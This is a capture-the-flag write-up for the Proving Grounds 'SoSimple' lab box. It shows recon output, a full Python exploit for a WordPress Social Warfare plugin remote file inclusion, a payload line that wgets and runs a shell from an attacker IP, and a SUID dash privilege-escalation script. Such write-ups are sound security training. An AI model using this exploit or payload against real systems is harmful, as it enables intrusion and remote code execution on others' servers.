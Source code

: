 ```yaml
---
title: "Proving grounds Play: SoSimple"
layout: post
date: 2023-07-22 12:00
categories: writeup
---
```


Proving grounds Play - SoSimple CTF writeup.

## Walkthrough on Youtube

[![youtube](/assets/images/CTF/Proving_Grounds/SoSimple/youtube.png)](https://youtu.be/KodURDujWxs)

## NMAP
```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5b5543efafd03d0e63207af4ac416a45 (RSA)
|   256 53f5231be9aa8f41e218c6055007d8d4 (ECDSA)
|_  256 55b77b7e0bf54d1bdfc35da1d768a96b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: So Simple
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Fuzzing for directories and Files
```sh
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.158.78/FUZZ/
Total requests: 62284

=====================================================================
ID           Response   Lines    Word       Chars       Payload                               
=====================================================================

000000327:   200        147 L    646 W      13420 Ch    "wordpress"                           
000000386:   403        9 L      28 W       279 Ch      "icons"                               
000004227:   403        9 L      28 W       279 Ch      "server-status"                       
000004255:   200        77 L     39 W       495 Ch      "http://192.168.158.78//"             
000010756:   404        9 L      31 W       276 Ch      "secure_html"
```

## WPScan
```sh
+] social-warfare
 | Location: http://192.168.158.78/wordpress/wp-content/plugins/social-warfare/
 | Last Updated: 2023-02-15T16:23:00.000Z
 | [!] The version is out of date, the latest version is 4.4.1
```

### Searchsploit

![img](/assets/images/CTF/Proving_Grounds/SoSimple/searchsploit.png)

### Exploit

```py
import sys
import requests
import re
import urlparse
import optparse

class EXPLOIT:

	VULNPATH = "wp-admin/admin-post.php?swp_debug=load_options&swp_url=%s"

	def __init__(self, _t, _p):
		self.target  = _t
		self.payload = _p

	def engage(self):
		uri = urlparse.urljoin( self.target, self.VULNPATH % self.payload )
		r = requests.get( uri )
		if r.status_code == 500:
			print "[*] Received Response From Server!"
			rr  = r.text
			obj = re.search(r"^(.*)<\!DOCTYPE", r.text.replace( "\n", "lnbreak" ))
			if obj:
				resp = obj.groups()[0]
				if resp:
					print "[<] Received: "
					print resp.replace( "lnbreak", "\n" )
				else:
					sys.exit("[<] Nothing Received for the given payload. Seems like the server is not vulnerable!")
			else:
				sys.exit("[<] Nothing Received for the given payload. Seems like the server is not vulnerable!")
		else:
			sys.exit( "[~] Unexpected Status Received!" )

def main():
	parser = optparse.OptionParser(  )

	parser.add_option( '-t', '--target', dest="target", default="", type="string", help="Target Link" )
	parser.add_option( ''  , '--payload-uri', dest="payload", default="", type="string", help="URI where the file payload.txt is located." )

	(options, args) = parser.parse_args()

	print "[>] Sending Payload to System!"
	exploit = EXPLOIT( options.target, options.payload )
	exploit.engage()

if __name__ == "__main__":
	main()
```

Vulnerable PATH

```py
VULNPATH = "wp-admin/admin-post.php?swp_debug=load_options&swp_url=%s"
```
### Remote File Inclusion

**Remote payload file**

```text
<pre>
system("wget http://192.168.45.217:8000/shell  -O /var/tmp/shell; chmod 755 /var/tmp/shell; chmod +x /var/tmp/shell; /var/tmp/shell");
</pre>
```
### Reverse shell payload using msfvenom

![img](/assets/images/CTF/Proving_Grounds/SoSimple/rev_shell.png)

### RFI Exploitation

![img](/assets/images/CTF/Proving_Grounds/SoSimple/rfi.png)

**Reverse shell connection obtained.**

## Privilege Escalation

User `max` ssh id_rsa file has been found.

![img](/assets/images/CTF/Proving_Grounds/SoSimple/id_rsa.png)

### SSH login to max

![img](/assets/images/CTF/Proving_Grounds/SoSimple/max.png)

Listing `max` user permission, finding exploit for the `service` using GTFO bins and switch user to `steven`

![img](/assets/images/CTF/Proving_Grounds/SoSimple/steven.png)

Listing `steven` user permisssions

![img](/assets/images/CTF/Proving_Grounds/SoSimple/server-health.png)

Create bash script using the location mentioned in the permissions.

```sh
#!/bin/bash

cp /bin/dash /var/tmp/dash; chmod u+s /var/tmp/dash
```

`chmod u+s` Allows the binary to be executed as owner + SUID permissions.

### Running script as root user

![img](/assets/images/CTF/Proving_Grounds/SoSimple/dash.png)

**Run** `dash`

![img](/assets/images/CTF/Proving_Grounds/SoSimple/proof.png)

`dash -p` preserves effective privilege with which it was created and executed with same privilege.

**Root obtained.**

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
